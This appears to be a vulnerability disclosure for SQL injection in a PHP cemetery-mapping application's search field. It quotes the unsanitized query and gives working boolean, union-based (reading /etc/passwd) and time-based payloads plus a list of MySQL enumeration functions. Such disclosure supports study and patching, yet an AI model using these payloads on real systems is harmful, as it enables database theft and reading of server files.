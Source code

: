 # Exploit Example:
https://www.exploit-db.com/exploits/49413

SQL Injection is a type of an injection attack that makes it possible to execute malicious SQL statements. Due to unsanitized user input, the attacker can retrieve the entire SQL database in this case.

## Explanation:
The function "person.php" takes user input through the search bar at line 45:

"$_POST['search']"

and uses it without any sanitization for the following SQL statement (line 46-49):
```
$sql = "SELECT * FROM tblpeople WHERE FNAME LIKE '%".$search."%'";
$mydb->setQuery($sql);
$cur = $mydb->executeQuery();
$numrows = $mydb->num_rows($cur);//get the number of count
```
A single quote (') at the search bar under http://localhost/CemeteryMapping/index.php?q=person will result in SQL synthax errors.


## Proof of Concept:

Since the php code lacks of sanitization of the user input, multiple SQL injection queries can be found.

### 1. Boolean-based SQL injection

POST request the page /CemeteryMapping/index.php?q=person and use as payload: ' or 1=1 --

search=' or 1=1 --

### 2. Union-based SQL injection

To retrieve sensitive files like /etc/passwd, use the following payload at the search bar (POST request http://localhost/CemeteryMapping/index.php?q=person):

search=' UNION SELECT NULL,load_file('/etc/passwd'),NULL,NULL,NULL,NULL,NULL-- -

If you want to enumerate the target system further, replace "load_file('/etc/passwd')" with one of the following MySQL commands:
```
@@hostname : Current Hostname

@@tmpdir : Temp Directory

@@datadir : Data Directory

@@version : Version of DB

@@basedir : Base Directory

user() : Current User

database() : Current Database

version() : Version

schema() : current Database

UUID() : System UUID key

current_user() : Current User

current_user : Current User

system_user() : Current System user

session_user() : Session user

@@GLOBAL.have_symlink : Check if Symlink is enabled or disabled

@@GLOBAL.have_ssl : Check if it have SSL or not
```
### 3. Time-based SQL injection

For time-based SQL injection, use the payload: ' AND (SELECT 2634 FROM (SELECT(SLEEP(5)))muaN)-- -
